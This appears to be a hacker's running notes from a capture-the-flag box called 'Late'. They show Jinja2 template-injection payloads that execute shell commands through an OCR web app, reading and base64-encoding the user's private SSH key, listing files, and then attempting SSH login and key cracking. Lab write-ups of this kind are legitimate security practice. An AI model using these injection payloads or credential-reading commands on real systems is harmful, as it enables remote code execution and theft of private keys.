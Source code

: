 Tried just base64 ing it and saving to another file:

`
CMD (or 'exit')> cat ../.ssh/id_rsa | base64 > a
[ Tried:	tesseractSux {{ joiner.__init__.__globals__.os.popen('cat ../.ssh/id_rsa | base64 > a').read() }}


CMD (or 'exit')> ls -lsaF
[ Tried:	tesseractSux {{ joiner.__init__.__globals__.os.popen('ls -lsaF').read() }}
total 44
4 drwxrwxr-x 7 svc_acc svc_acc 4096 May  8 17:21 ./
4 drwxr-xr-x 7 svc_acc svc_acc 4096 May  8 00:56 ../
4 -rw-r--r-- 1 svc_acc svc_acc 2270 May  8 17:21 a
4 -rw-r--r-- 1 svc_acc svc_acc 1765 Apr  4 12:58 main.py
4 -rw-r--r-- 1 svc_acc svc_acc 2192 May  7 21:42 main.pyc
4 drwxr-xr-x 2 svc_acc svc_acc 4096 May  8 17:21 misc/
4 drwxr-xr-x 2 root    root    4096 Apr  4 12:59 __pycache__/
4 drwxr-xr-x 7 svc_acc svc_acc 4096 Jan  6 11:17 static/
4 drwxr-xr-x 2 svc_acc svc_acc 4096 Jan  6 11:17 templates/
4 drwxr-xr-x 2 svc_acc svc_acc 4096 May  8 17:21 uploads/
4 -rw-r--r-- 1 svc_acc svc_acc  104 Apr  4 12:58 wsgi.py


CMD (or 'exit')> cat a
[ Tried:	tesseractSux {{ joiner.__init__.__globals__.os.popen('cat a').read() }}
<long base64>
`
Looks good, base64 -d's perfectly:
`
┌─[root@parrotLT]─[/h/late]
└──╼ #cat id_rsa3.base64 | base64 -d >id_rsa3
`
Still asking for pw:
`
└──╼ #ssh -i id_rsa3 svc_acc@late.htb
svc_acc@late.htb's password: 
`
Tried cracking with john:   hmmm,
 `
└──╼ #python2.7 /usr/share/john/ssh2john.py id_rsa3
id_rsa3 has no password!
`
So, maybe this isn't the correct password, why is ssh asking for a pw then???

Tried this one:
`
app.secret_key = b'_5#y2L&#34;F4Q8z\n\xec]/'
_5#y2L&#34;F4Q8z\n\xec]/
`
ugh, this looks like it will have some bad chars in it, but lets try..

ahh crap, bad formatting.  &#34; is another char: checked in cyberchef as urldecode sites aren't showing me, this is an HTML entitycode actually, oops, I should know the difference at this point..

